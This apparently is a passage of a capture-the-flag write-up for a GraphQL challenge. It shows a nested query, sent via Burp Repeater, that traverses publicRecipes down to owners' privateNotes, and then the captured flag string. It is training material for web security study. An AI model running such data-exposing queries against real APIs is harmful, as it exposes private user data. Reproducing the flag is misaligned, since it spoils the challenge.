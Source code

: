    Using Burp Repeater, send a deep query that walks the graph from `publicRecipes` → `Recipe` → `ingredients` → `supplier` → `owner` → `privateNotes`:
    
   ```graphql
    query {
       publicRecipes {
          name
          description
          author {
            notes
          }
          ingredients {
            supplier {
              owner {
                privateNotes
              }
            }
          }
        }
      }
   ```
   
   <img width="1370" height="679" alt="image" src="https://github.com/user-attachments/assets/f9c0cc4e-47a5-4427-bacc-1f40752bf2a3" />

    ```
    brunner{Gr4phQL_1ntR0sp3ct10n_G035_R0UnD_4Nd_r0uND}
    ```
